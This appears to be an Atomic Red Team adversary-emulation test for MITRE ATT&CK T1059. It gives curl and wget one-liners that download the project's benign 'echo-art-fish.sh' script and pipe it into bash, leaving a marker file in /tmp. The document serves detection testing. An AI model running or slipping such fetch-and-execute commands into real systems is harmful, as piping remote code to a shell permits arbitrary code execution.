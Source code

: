 # Command-Line Interface

## MITRE ATT&CK Technique:
	[T1059](https://attack.mitre.org/wiki/Technique/T1059)

## Using Curl to download and pipe a payload to Bash. NOTE: Curl-ing to Bash is generally a bad idea if you don't control the server.

    bash -c "curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Linux/Payloads/echo-art-fish.sh | bash"


## Using Wget for equivalent functionality.

    bash -c "wget --quiet -O - https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Linux/Payloads/echo-art-fish.sh | bash"

## This will download the specified payload and set a marker file in `/tmp/art-fish.txt`.
